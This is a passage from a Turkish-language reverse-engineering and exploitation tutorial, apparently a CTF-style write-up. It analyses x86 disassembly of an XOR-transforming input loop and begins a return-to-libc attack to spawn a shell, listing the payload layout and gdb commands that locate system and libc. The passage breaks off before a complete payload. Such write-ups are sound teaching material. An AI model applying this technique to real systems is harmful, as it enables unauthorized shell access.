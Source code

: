 ```assembly
0x08048428 <+61>:    lea    edx,[ebp-0x3c]
0x0804842b <+64>:    mov    eax,DWORD PTR [ebp-0x8]
0x0804842e <+67>:    add    eax,edx
0x08048430 <+69>:    mov    BYTE PTR [eax],cl
```

Bu seferde program aynı işlemleri tekrarlayarak bu sefer'de "D1 + sayaç" adresine ecx, yani "(girdiden alınan karakter) xor (3 * sayaç)" değerini yazıyor.

```assembly
0x08048432 <+71>:    lea    edx,[ebp-0x3c]
0x08048435 <+74>:    mov    eax,DWORD PTR [ebp-0x8]
0x08048438 <+77>:    add    eax,edx
0x0804843a <+79>:    movzx  eax,BYTE PTR [eax]
0x0804843d <+82>:    movsx  ebx,al
```

Son olarak ise programın ecx değerini ebx'e kopyaladığını görüyoruz. 

Burada optimize edilmemiş bir kodun aslında kendini gereksizce ne kadar tekrarladığını görebiliriz. Bu tarz tekrarlar bu kadar küçük bir programda zaman kaybı yaşatmasa da büyük projelerde ciddi sıkıntılar yaratabiliyor.

Sonuç olarak bu kadar işlemin ebx'in içine "(girdiden alınan karakter) xor (3 * sayaç)" değerini atmak için yapıldığını gördük.

Şimdi yapacağımız şey ise biz öyle karakterler girelim ki programın "ret" komutuyla döneceği adres bize bir shell açsın. 

Bunu "return to libc" atağı kullanarak yapabiliriz. "libc" dediğimiz standart C kütüphanesi zaten sistemin belleğinde bir yerlerde yüklü halde. Bu kütüphane de bizim shell almamız için çağırmamız gereken "system" fonksiyonunu barındırıyor. Programın akışını değiştirerek C kütüphanesindeki bir fonksiyona zıplamaya "return to libc" atağı deniyor. "system" fonksiyonuna bir de çalıştıracağı komutu char* olarak vermemiz gerekiyor. Yani belleğe şu şekilde yazmamız gerekiyor:

```
<systemin_yüklü_olduğu_adres> <system_fonksiyonu_bitince_programın_döneceği_adres> <çalışacak_stringin_adresi>
```

Sistem fonksiyonu bittiğinde biz zaten çoktan shell'imizi çalıştırmış olacağımızdan programın döneceği adrese herhangi bir değer verebiliriz.

"system" fonksiyonunun adresini bulmak için gdb'de program çalışıyorken şu komutu girelim:
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e4c850 <system>
```

Bu cepte dursun. Shell almak için "/bin/sh" komutunu çalıştırabiliriz. "/bin/sh" string'i de C kütüphanesi sayesinde belleğimizde yüklü. Adresini bulmak için yüklü C kütüphanesinin adresini ve o adreste "/bin/sh" string'inin adresini bulalım.

```
(gdb) info proc mappings
...
0xf7e12000 0xf7fc3000   0x1b1000        0x0 /lib32/libc-2.24.so
...
```
